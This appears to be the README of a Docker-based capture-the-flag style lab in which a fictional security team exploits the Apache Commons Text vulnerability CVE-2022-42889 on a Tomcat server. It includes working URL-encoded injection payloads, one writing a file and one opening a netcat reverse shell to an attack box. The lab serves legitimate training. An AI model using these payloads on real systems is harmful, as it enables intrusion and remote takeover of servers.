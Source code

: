 # LAB AUDITION

## PREREQUISITE
+ git
+ docker && docker compose

## SETUP THE ENVIRONMENT
+ `git clone `
+ `docker compose up`

### Configure the Kali Attack Box
+ `docker exec -it $(docker ps -aqf "name=attack-box") /bin/bash`
+ In the interactive shell, type `apt update && apt -y install kali-linux-headless`

## CHALLENGES
## Scenario
Globomantics is under cyber seige by the nefarious Dark Kittens Collective hacking conglomerate. As a member of the Globomantics security team, you've just been authorized corporate cover by the board to "hack back" in an attempt to take down these crafty cats. We've got a tip that the Dark Kittens Collective is running a web server at 10.0.0.3:8080, let's check it out!

### Enumeration
+ In the interactive attack box shell, type...
  + `curl -v '10.0.0.3:8080'`
  + `echo "VXNlIHNlYXJjaCBwYXJhbWV0ZXIgZm9yIE1GQQ==" | base64 -d`
  + `curl -XGET '10.0.0.3:8080/search?n=ghost'` (optional: repeat to see MFA code change)
+ We've found the Dark Kittens Collective Multi-Factor Authentication Generator (may come in handy later *future lab storyline enhancement*). This Apache Tomcat webserver (because of course it is) definitely uses scripting and some string replacement functionality. Cue research and we find there is a recently discovered vulnerability in Apache Commons Text that may come in handy if the Dark Kittens Collective hasn't patched yet! Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42889

### Verification
+ Since this is a takedown, we have no reason for stealth and want to let these Dark Kittens know we are after them so to verify the vulnerability we're going to drop a calling card on the webserver.
+ Tip: Make sure to urlencode the script line so special characters are properly interpreted.
  + To leave a calling card in /tmp/pwned, type `docker exec -it $(docker ps -aqf "name=attack-box") curl -XGET '10.0.0.3:8080/search?n=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fpwned%27%29%7D'`
  + To verify our calling card is on the webserver, type `docker exec -it $(docker ps -aqf "name=web-server") ls /tmp` 
    + *In real life, the Dark Kittens Collective webserver wouldn't be running in a local docker container (unless you are a hacker cat!) so we wouldn't be able to run this command.*

### Access
+ Leaving calling cards is cool, but we need more to take down these cats. Let's use the same proof of concept to get a reverse shell on the webserver.
+ In the interactive attack box shell, setup a listener `nc -nlvp 8888`
+ To iniative the reverse shell, run `docker exec -it $(docker ps -aqf "name=attack-box") curl -XGET '10.0.0.3:8080/search?n=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nc%2010.0.0.7%208888%20-e%20%2Fbin%2Fbash%27%29%7D'`
  + Verify access, type `id`
  + **Install the lazer pointer program and watch chaos of the Dark Kittens Collective as they destory each other from within.**
